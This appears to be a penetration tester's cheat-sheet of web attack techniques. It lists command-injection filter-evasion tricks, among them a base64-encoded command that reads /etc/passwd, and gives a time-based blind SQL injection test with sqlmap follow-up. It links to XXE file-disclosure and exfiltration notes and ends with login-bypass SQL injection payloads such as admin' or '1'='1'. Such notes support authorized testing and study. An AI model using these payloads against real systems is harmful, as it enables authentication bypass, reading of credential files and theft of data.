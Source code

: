 | Code                                                         | Description                         |
| ------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                      |                                     |
| `'` or `"` in between characters (whoa'm'oi)                 | Total must be even                  |
| `$@` or `\`                                                  | Linux only                          |
| **Case Manipulation**                                        |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| **Reversed Commands**                                        |                                     |
| `echo 'whoami' \| rev`                                       | Reverse a string                    |
| `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| **Encoded Commands**                                         |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |



## SQLi
If there is user input being sent somewhere, but no data is being returned, test the following:
1. `' OR SLEEP(5)-- -`
	- Should be a 5 second delay if vulnerable
2. If you find a delay, intercept request, copy and put into a file, and submit into sqlmap



## XXE (If XML data is being supplied)
### LFI: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/1. Local File Disclosure]]
### Advanced File Disclosure: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/2. Advanced File Disclosure]]
### Blind Data Exfiltration: [[Cybersecurity/Web App Security/Web Application Testing/3. Input-Based Attacks/7. XXE Injection/3. Blind Data Exfiltration]]


# Login Attacks
## SQLi
1. Test for SQLi with the following in the `username` field:
	- `admin'`
	- `admin' or '1'='1';-- -`
	- `admin')-- -`
	- `' or 1=1 limit 1 --` (this is always true and will log you in as the first user in the database)
	- `admin' order by 1-- -` (increase the `1` up to `20`, testing one-by-one)
	- `admin' UNION select 1,2,3-- -` (increase the number of columns up until you reach `20`)
